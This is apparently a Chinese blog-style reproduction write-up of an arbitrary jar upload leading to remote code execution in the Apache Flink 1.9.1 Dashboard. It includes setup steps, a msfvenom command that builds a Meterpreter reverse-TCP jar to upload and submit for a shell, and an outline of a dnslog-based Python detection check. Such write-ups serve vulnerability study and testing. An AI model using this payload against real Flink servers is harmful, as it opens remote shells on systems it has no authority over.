



Apache Flink 任意 Jar 包上传致 RCE 漏洞复现 

#### 0x00 简介
Flink核心是一个流式的数据流执行引擎，其针对数据流的分布式计算提供了数据分布、数据通信以及容错机制等功能。基于流执行引擎，Flink提供了诸多更高抽象层的API以便用户编写分布式任务。

#### 0x01 漏洞概述

攻击者可直接在Apache Flink Dashboard页面中上传任意jar包，从而达到远程代码执行的目的。

####  0x02 影响版本

至目前最新版本Apache Flink 1.9.1

#### 0x03 环境搭建

测试环境：Flink 1.9.1 java8+

Apache Flink 1.9.1安装包下载

`https://www.apache.org/dyn/closer.lua/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz`

解压后进入bin文件夹，运行./start-cluster.sh

验证Flink启动之后，默认web 端口8081是否正常

访问http://ip:8081/可看到环境页面

#### 0x04 漏洞利用

1、上传msf生成的jar包

生成rce.jar文件

`msfvenom -p java/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=8989 -f jar > rce.jar`

在flink中上传rce.jar文件

msf启用监听

然后在flink中选中我们刚刚上传的jar文件，点击submit,msf就会收到一个反向连接，得到一个session

#### python poc

写python poc也很简单了，直接利用dnslog的方式检测目标主机是否反向dns解析我们的dnslog平台就行了，也就是我们利用msf生成一个LHOST为dnslog平台域名的jar,然后利用requests将这个jar传上去，然后再用requests模拟submit操作，最后验证dnslog平台是否有记录就行了